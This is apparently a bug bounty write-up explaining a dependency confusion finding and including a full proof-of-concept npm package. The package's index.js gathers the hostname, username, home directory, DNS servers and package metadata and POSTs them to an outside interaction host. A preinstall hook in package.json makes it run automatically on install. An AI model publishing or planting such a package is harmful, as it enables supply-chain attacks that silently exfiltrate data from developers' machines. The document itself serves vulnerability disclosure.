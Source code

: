 ```yaml
---
layout: post
title: Remote Code Execution through Dependency Confusion using Burpsuite Extension
date: 2023-08-19 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,rce] 
---
```



## Introduction

[Dependency Confusion](https://fossa.com/blog/dependency-confusion-understanding-preventing-attacks/) is a security vulnerability that affects software dependencies in the software development process. It occurs when a public package manager installs an internal or private package with the same name as an external public package. An attacker can exploit this vulnerability by uploading a malicious package to the public package repository.

## Discovery

I was testing a bug bounty target when I noticed that the extension [JS-Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b) flagged a dependency issue in the target application. The issue involved a JavaScript file that referenced an organization called **private-progrm-widget/widget1**. However, this organization was not found in the NPM registry. An attacker can create a fake package that is named `private-progrm-widget` and then create a module name `widget1` and upload that to the NPM registry. When the target application tries to install this package, it will actually install the attacker's malicious code.

![JS-miner](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS4.png?raw=true)

For the proof of concept, I created the following `index.js` and `package.json` files and published them to [npmjs.com](http://npmjs.com/) under the name **private-progrm-widget/widget module** :


#### index.js

```jsx
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "chehzb52vtc0000bsfaggeze9iwyyyyyb.oast.fun",
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();

```

#### package.json

```json
{
  "name": "@private-progrm-widget/widget",
  "version": "5.0.4",
  "description": "null",
  "main": "index.js",
  "scripts": {
    "test": "echo \\"Error: no test specified\\" && exit 1",
    "preinstall": "node index.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "@private-progrm-widget/widget": "^5.0.4"
  }
}

```

When a user installs this module, it retrieves their username and current working directory. After waiting for a while, the following HTTP calls were logged to my [interact.sh](http://interact.sh/) server, confirming the execution of the `index.js` file.

![Remote%20Code%20Execution%20using%20Dependency%20Confusion%20bbc9d0cfc912465883f0d0f3d55ffa68/Screenshot_2023-05-23_at_5.20.20_PM.png](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS2.png?raw=true)

Reference: [https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)